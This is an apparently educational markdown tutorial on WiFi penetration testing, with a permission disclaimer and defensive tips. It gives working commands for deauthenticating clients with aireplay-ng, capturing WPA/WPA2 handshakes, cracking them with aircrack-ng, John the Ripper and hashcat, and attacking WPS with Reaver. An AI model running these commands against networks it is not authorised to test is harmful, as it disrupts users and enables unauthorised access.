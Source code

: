 ### Comprehensive Notes on WiFi Hacking

WiFi hacking involves various techniques and tools to test the security of wireless networks. This guide covers the essential tools and techniques, including Aircrack-ng, Airmon-ng, and password cracking.

### Disclaimer

WiFi hacking should only be performed on networks you own or have explicit permission to test. Unauthorized access to networks is illegal and unethical.

### Essential Tools

1. **Aircrack-ng Suite**: A comprehensive suite for assessing WiFi network security.
2. **Airmon-ng**: Used to enable monitor mode on wireless interfaces.
3. **Airodump-ng**: For capturing raw 802.11 frames.
4. **Aireplay-ng**: For injecting frames.
5. **Aircrack-ng**: For cracking WEP and WPA-PSK keys.
6. **Wireshark**: A network protocol analyzer to inspect captured data.

### Setting Up

#### Install Aircrack-ng

On Debian-based systems (e.g., Ubuntu, Kali Linux):
```bash
sudo apt-get update
sudo apt-get install aircrack-ng
```

On Arch-based systems:
```bash
sudo pacman -S aircrack-ng
```

### WiFi Hacking Steps

#### 1. Enable Monitor Mode with Airmon-ng

Monitor mode allows your wireless card to capture all packets in the air.
```bash
sudo airmon-ng start wlan0
```
Replace `wlan0` with your network interface name.

#### 2. Capture Packets with Airodump-ng

Use Airodump-ng to capture packets and gather information about nearby WiFi networks.
```bash
sudo airodump-ng wlan0mon
```
Replace `wlan0mon` with your monitor mode interface name.

#### 3. Target a Specific Network

To target a specific network, note the BSSID (MAC address) and channel (CH) from the Airodump-ng output.
```bash
sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon
```
Replace `<channel>`, `<BSSID>`, and `capture` with the appropriate values.

#### 4. Deauthenticate Clients with Aireplay-ng

Deauthentication attacks force clients to reconnect, capturing the WPA/WPA2 handshake.
```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```
Replace `<BSSID>` with the target network's BSSID.

#### 5. Crack WPA/WPA2 Handshake with Aircrack-ng

Once you capture the handshake, use Aircrack-ng to crack the password.
```bash
sudo aircrack-ng -w /path/to/wordlist -b <BSSID> capture-01.cap
```
Replace `/path/to/wordlist` with the path to your wordlist file and `<BSSID>` with the target BSSID. The `capture-01.cap` file is the output from Airodump-ng.

### Advanced Techniques

#### Using John the Ripper for WPA/WPA2 Cracking

John the Ripper can be used to crack WPA/WPA2 passwords by leveraging its wordlists and powerful cracking algorithms.

1. **Convert the .cap file to a format John can read**:
   ```bash
   aircrack-ng -J output capture-01.cap
   ```
   This converts the .cap file to a .john format.

2. **Run John the Ripper**:
   ```bash
   john --wordlist=/path/to/wordlist output.john
   ```

#### Using Hashcat for WPA/WPA2 Cracking

Hashcat is a highly efficient password cracking tool that supports GPU acceleration.

1. **Convert the .cap file to .hccapx format**:
   ```bash
   cap2hccapx.bin capture-01.cap capture.hccapx
   ```

2. **Run Hashcat**:
   ```bash
   hashcat -m 2500 capture.hccapx /path/to/wordlist
   ```

### Additional Tools and Techniques

#### Wifite

Wifite automates the process of WiFi hacking, making it easier to perform attacks.
```bash
sudo wifite
```
It scans for targets and performs the necessary attacks automatically.

#### Reaver

Reaver targets WPS (Wi-Fi Protected Setup) to recover WPA/WPA2 passphrases.
```bash
sudo reaver -i wlan0mon -b <BSSID> -vv
```

### Best Practices

1. **Use Strong Passwords**: Always use complex, unique passwords for your WiFi network.
2. **Disable WPS**: WPS is a common attack vector and should be disabled.
3. **Monitor Network**: Regularly monitor your network for suspicious activity.
4. **Keep Firmware Updated**: Ensure your router’s firmware is up-to-date to protect against known vulnerabilities.

### Ethical Considerations

- **Only Test Your Own Networks**: Ensure you have permission before testing any network.
- **Report Findings**: If you discover vulnerabilities, report them to the network owner or administrator.

### Conclusion

WiFi hacking techniques and tools like Aircrack-ng, Airmon-ng, and others are essential for assessing the security of wireless networks. Always use these tools responsibly and within legal boundaries to enhance the security of your own networks or those you are authorized to test.

